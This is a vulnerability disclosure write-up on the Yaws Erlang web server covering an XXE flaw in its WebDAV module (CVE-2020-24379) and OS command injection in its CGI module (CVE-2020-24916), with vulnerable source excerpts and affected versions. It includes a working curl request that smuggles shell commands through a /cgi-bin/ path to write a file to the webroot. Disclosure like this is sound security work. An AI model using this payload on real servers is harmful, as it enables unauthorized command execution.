

Yaws is a web server for dynamic-content web applications written in Erlang. The server includes several modules, typical for web servers. As a result of research, I found an XXE injection in a WebDAV module and OS command injection in a CGI module.
XXE injection (CVE-2020-24379)
WebDAV is an HTTP protocol extension that facilitates collaboration between users in editing and managing files stored on World Wide Web servers.
The extension uses XML in some methods.
I had a working blind injection payload and started looking for a way to exploit XXE directly.
The LOCK method designed to lock the resource proved to be useful. Entity d:href allows returning data:

WebDAV module uses the Xmerl Erlang library for parsing messages of methods LOCK, PROPFIND and PROPPATCH. It is a rather powerful library, but it has unsafe defaults.
WebDAV must be enabled in the configuration file to be able to exploit the vulnerability:
<server>
...
dav = true
</server>Vulnerable code was introduced in the commit 16299b3 on May 16, 2005. So versions 1.81 to 2.0.7 are vulnerable to XXE injection.
OS command injection (CVE-2020-24916)
Yaws’ CGI module (Common Gateway Interface) allows executing programs that dynamically generate web pages. The usage of such interfaces is often associated with security problems.
In the Yaws, the cgi module is used to execute PHP scripts and other external programs.
The choice of the request handler takes place in yaws_server.erl:
handle_ut(CliSock, ARG, UT = #urltype{type = php}, N) ->
...
Fun = case SC#sconf.php_handler of
{cgi, Exe} ->
fun(A)->
yaws_cgi:call_cgi(
A,Exe,lists:flatten(UT#urltype.fullpath)
)
...For .php files, the handler calls the Exe program specified in the configuration.
handle_ut(CliSock, ARG, UT = #urltype{type = cgi}, N) ->
...
deliver_dyn_part(...
fun(A)->yaws_cgi:call_cgi(
A,lists:flatten(UT#urltype.fullpath))
...The handler makes almost the same call for .cgi files, except that it uses the full path to the requested file as an external program.
Yaws checks requested file existence without applying bash expansion to resolve the file path, so I was not able to exploit cgi module using these handlers.
Appmod_cgi is a simple module that adds another handler implementing CGI behavior for anything that rests at a particular path (usually ./cgi-bin/) and it is turned on by default.
src/yaws_appmod_cgi.erl:
out(Arg) ->
yaws_cgi:call_cgi(Arg, lists:flatten(Arg#arg.fullpath)).The webserver does not check whether the requested file exists in /cgi-bin/ but passes the path to it through a chain: call_cgi -> cgi_start_worker -> cgi_worker.
src/yaws_cgi.erl:
cgi_worker(Parent, Arg, Exefilename, Scriptfilename, Pathinfo, ExtraEnv0, SC) ->
...
CGIPort = open_port({spawn, Exefilename},
[{env, Env},
{cd, pathof(Scriptfilename)},
exit_status,
binary]),
...The values of Exefilename, Scriptfilename, which depend on the name of the requested file, fall into the shell here.
call_cgi(Arg, Scriptfilename) ->
call_cgi(Arg, undefined, Scriptfilename, undefined, []).
call_cgi(Arg, Exefilename, Scriptfilename) ->
call_cgi(Arg, Exefilename, Scriptfilename, undefined, []).
call_cgi(Arg, Exefilename, Scriptfilename, Pathinfo) ->
call_cgi(Arg, Exefilename, Scriptfilename, Pathinfo, []).In case the Exefilename is undefined, its value is obtained by applying the exeof function to Scriptfilename. The function cuts everything from the beginning of the path to the last /.
So if we want to use / in our payload, we have to hide it somehow, for example, in the environment variable: export Z=$(pwd|cut -c1).
Then we can get what we need from the environment: echo pawned >> ..$Z""index.html
Thus, a simple query allows you to write a file to the webroot:
curl 'http://127.0.0.1:8000/cgi-bin/%22%60export%20Z=$(pwd%7Ccut%20-c1);echo%20pawned%20completely%3E%3E..$Z%22%22index.html%60%22'
Vulnerable code was introduced in the commit 7cd4080 on Mar 10, 2008. So versions 1.81 to 2.0.7 are vulnerable.
References
- XXE injection PoC
- Shell injection PoC
- OS command injection explained by PortSwigger
- CWE-611: Improper Restriction of XML External Entity Reference
- CWE-78: Improper Neutralization of Special Elements used in an OS Command (‘OS Command Injection’)
- Xmerl
- RFC 4331
- RFC 3875: The Common Gateway Interface (CGI) Version 1.1
- CVE-2020-24379
- CVE-2020-24916